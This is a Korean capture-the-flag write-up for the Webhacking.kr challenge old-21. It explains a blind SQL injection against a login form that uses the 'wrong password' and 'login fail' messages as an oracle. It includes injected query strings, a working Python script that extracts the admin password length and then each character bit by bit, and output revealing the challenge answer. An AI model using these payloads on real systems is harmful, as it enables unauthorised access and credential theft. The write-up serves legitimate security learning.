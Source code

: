 ```yaml
---
title: ["[Webhacking.kr] old-21 (sqli - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, blind sqli, binary search, mysql, blackbox]
---
```

## Intro

또 블랙박스 SQLi다.  
이전의 블랙박스 SQLi와는 다르게, 필터링되는 문구가 많지 않은 기본 문제인 것 같다.  

## Analysis

쿼리의 결과를 판단할 수 있는 result 창이 있어서,  
`sleep`이나 `benchmark`없이 Blind SQLi가 가능할 것 같다.  

쿼리의 결과가 거짓이고, `pw` 비교에 실패한 경우,  
`login fail`을 출력하고,  
쿼리의 결과가 참이지만, `pw` 비교가 실패한 경우,  
`wrong password`를 출력한다.  

이를 이용해서 Blind SQLi 페이로드를 작성할 수 있다.  



먼저, pw의 길이를 구해보자.  
```
?id=admin&pw=1'or length(pw)=36 and id='admin
```  
이렇게 파라미터를 넘기면 내부에서 쿼리가 아래와 같이 실행될 것이다.  
```mysql
SELECT * from chall21 where id='admin' and pw='1'or length(pw)=36 and id='admin'
```  
`id='admin' and pw='1'`은 거짓이고,  
`admin`의 `pw` 길이가 36인 경우, `length(pw)=36 and id='admin'`은 참이다.  
쿼리의 결과는 참이지만, pw가 틀려 `wrong password`가 나오게 된다.  

같은 원리로 pw를 한글자씩 계산할 수 있다.   

```
?id=admin&pw=1'or ord(substr(pw,1,1))&1<<6 and id='admin
```  
이진탐색을 이용한 Blind SQLi 쿼리이다.  
`pw` 한 글자를 binary 값으로 바꾸고, 한비트씩 shift시켜서 문자열을 계산하는 방식이다.  

이전 문제에서는 `<`가 필터링되어 있어서 사용을 못했는데,  
이번 문제와 같이 `pw`의 길이가 길때는 7번의 loop으로 한 글자를 계산할 수 있는 이진탐색을 사용한 페이로드가 효과적이다.  


## Payload

```python
import requests

url = "https://webhacking.kr/challenge/bonus-1/"
cookies = {"PHPSESSID": "44vvod9aiio7vkpuqie2jualol"}

pw_len = 0
for i in range(1,50):
    payload = f"1'or length(pw)={i} and id='admin"
    response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)
    if('wrong password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)

        if('wrong password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
```

```
Password length is 36
Password is t
Password is th
Password is the
Password is ther
Password is there
Password is there_
Password is there_i
Password is there_is
Password is there_is_
Password is there_is_n
Password is there_is_no
Password is there_is_no_
Password is there_is_no_r
Password is there_is_no_re
Password is there_is_no_res
Password is there_is_no_rest
Password is there_is_no_rest_
Password is there_is_no_rest_f
Password is there_is_no_rest_fo
Password is there_is_no_rest_for
Password is there_is_no_rest_for_
Password is there_is_no_rest_for_t
Password is there_is_no_rest_for_th
Password is there_is_no_rest_for_the
Password is there_is_no_rest_for_the_
Password is there_is_no_rest_for_the_w
Password is there_is_no_rest_for_the_wh
Password is there_is_no_rest_for_the_whi
Password is there_is_no_rest_for_the_whit
Password is there_is_no_rest_for_the_white
Password is there_is_no_rest_for_the_white_
Password is there_is_no_rest_for_the_white_a
Password is there_is_no_rest_for_the_white_an
Password is there_is_no_rest_for_the_white_ang
Password is there_is_no_rest_for_the_white_ange
Password is there_is_no_rest_for_the_white_angel
```